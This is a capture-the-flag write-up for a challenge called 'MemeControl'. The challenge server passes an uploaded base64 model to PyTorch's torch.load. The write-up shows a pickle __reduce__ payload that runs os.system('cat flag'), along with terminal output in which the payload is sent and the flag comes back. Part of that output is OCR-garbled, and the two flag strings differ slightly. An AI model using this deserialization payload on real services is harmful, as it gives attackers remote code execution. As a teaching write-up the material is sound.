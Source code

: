 # MemeControl
> Internet memes are getting out of control! Submit a pytorch model that catches illegal memes to earn a flag

## About the Challenge
We were given a zip file (You can download the file [here](memecontrol.tgz)). And if you extract the zip file, there is a python code. Here is the content of the source code

```python
import io
import torch
import base64

banner = \
'''
8""8""8                   8""""8                                      
8  8  8 eeee eeeeeee eeee 8    " eeeee eeeee eeeee eeeee  eeeee e     
8e 8  8 8    8  8  8 8    8e     8  88 8   8   8   8   8  8  88 8     
88 8  8 8eee 8e 8  8 8eee 88     8   8 8e  8   8e  8eee8e 8   8 8e    
88 8  8 88   88 8  8 88   88   e 8   8 88  8   88  88   8 8   8 88    
88 8  8 88ee 88 8  8 88ee 88eee8 8eee8 88  8   88  88   8 8eee8 88eee 
'''

try: 
    print(banner)
    base64_string = input("Send the base64 encoded model: ")
    bytes_data = base64.b64decode(base64_string)

    print("Evaluating the model ...")
    device = torch.device("cpu")
    model = torch.load(io.BytesIO(bytes_data), map_location=device)
    model.eval()
    print("Finished evaluating the model!")
except Exception as e:
    print(f"Ooops, this model is no good: {e}".format(e))
```

This Python code loads a PyTorch model that has been encoded in base64 format. It starts by printing a banner, which is just a string that contains some ASCII art. Then, it reads a base64-encoded model from standard input and decodes it using the `base64.b64decode()` function. The resulting byte string is then used to load a PyTorch model using the `torch.load()` function. The `map_location` argument is set to cpu, which means that the model is loaded onto the CPU device. Finally, the loaded model is set to evaluation mode using the `model.eval()` function.

## How to Solve?
To solve this, i searched about torch vulnerability and I found this [PyTorch issue](https://github.com/pytorch/pytorch/issues/52596) on GitHub. So I tried to use [Python Pickle RCE](https://exploit-notes.hdks.org/exploit/web/framework/python/python-pickle-rce/) payload, and here is the payload I used to solve the chall

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('cat flag')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

So, you need to run the code first to get the base64 payload, and then input the payload on the server to obtain the flag


[Image extracted text: root@LAPTOP-F9L3RGSH
~# python3
solv.py
b ' gASVIwAAAAAAAACMBXBvc2L4LIwGc3LzdGVtlJOUjAhjYXQgZmxhZSSFLFKULg==
root@LAPTOP-F9L3RGSH:~#
nc memecontrol-1.play.hfsc.tf 1337
8" "8" "8
eeee
eeeeeee
eeee
eeeee
eeeee
eeeee
eeeee
eeeee
8e
8e
88
88
88
8 8eee 8e
8 8eee 88
8 8e
8e
8eee8e
8 8e
88
8 88
88 8
8 88
88
8 88
88
88
8 8
8 88
88
8 88ee 88 8
8 88ee
88eee8 8eee8 88
88
88
8 8eee8 88eee
Send
the
base64 encoded
model:
gASVIwAAAAAAAACMBXBvc2L4LIwGc3lzdGVtLJOUjAhjYXQgZmxhZSSFLFKULg==
midnight{backdOOr5_ar3_cOOL_wh3n_th3y_ar3_yoURS}Evaluating
the model
Ooops
this
model
is
no
good:
Invalid
magic number;
corrupt file?]


```
midnight{backd00r5_ar3_c00l_wh3n_th3Y_ar3_yoUR5}
```